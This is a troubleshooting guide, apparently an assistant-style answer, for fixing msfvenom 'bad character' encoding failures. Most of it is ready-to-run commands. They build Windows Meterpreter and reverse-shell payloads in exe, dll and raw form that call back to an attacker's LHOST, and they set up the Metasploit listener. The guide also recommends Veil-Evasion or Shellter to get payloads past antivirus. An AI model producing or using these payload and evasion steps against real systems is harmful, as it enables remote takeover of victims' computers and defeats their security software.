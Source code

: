 **"Encoding failed due to a bad character"** occurs when `shikata_ga_nai` or another encoder fails to properly encode your payload due to restricted characters in the target environment. This often happens when certain characters (e.g., `0x00` null bytes) are not allowed due to application filtering or memory corruption limitations.

---

## **Steps to Fix the Encoding Failure**

### **1. Use a Different Encoder**
If `x86/shikata_ga_nai` fails, try another encoder. Some good alternatives include:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -e x86/call4_dword -f exe > payload.exe
```
Other encoders to try:
- `x86/call4_dword`
- `x86/countdown`
- `x86/fnstenv_mov`

Example:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -e x86/countdown -i 3 -f exe > payload.exe
```
This attempts 3 iterations of encoding.

---

### **2. Manually Specify Bad Characters**
If you know certain characters are causing issues, manually exclude them:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -b "\x00\x0a\x0d" -f exe > payload.exe
```
- `\x00` (Null byte)
- `\x0a` (Newline)
- `\x0d` (Carriage return)

You can also generate a bad character list and check what’s causing issues:
```bash
for i in {1..255}; do printf "\\x$(printf %x $i)"; done > badchars.txt
```
Then test it in the exploit to see which characters are filtered.

---

### **3. Reduce Encoding Iterations**
Instead of excessive encoding, reduce iterations:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -e x86/shikata_ga_nai -i 1 -f exe > payload.exe
```
More iterations can make the payload unstable.

---

### **4. Try a Different Payload Format**
If `exe` files are failing, try `dll` or `raw`:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f dll > payload.dll
```
For shellcode:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -b "\x00" -f raw > payload.bin
```

---

### **5. Use Alternative Payloads**
If encoding continues to fail, try different Meterpreter payloads:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > payload.exe
```
or
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > shell.exe
```
Some payloads are easier to encode than others.

---

### **6. Test Payload Execution**
After generating the payload, transfer it to Windows 7 and check if it executes properly.

To start the Metasploit handler:
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_IP>
set LPORT 4444
exploit
```

---

## **Final Troubleshooting**
- If encoding **always** fails, try a **different target architecture** (`windows/x64/meterpreter/...` for 64-bit systems).
- If the payload **crashes on execution**, try encoding with `x86/alpha_mixed`.
- If AV is **blocking execution**, use `Veil-Evasion` or `Shellter` to obfuscate the payload.
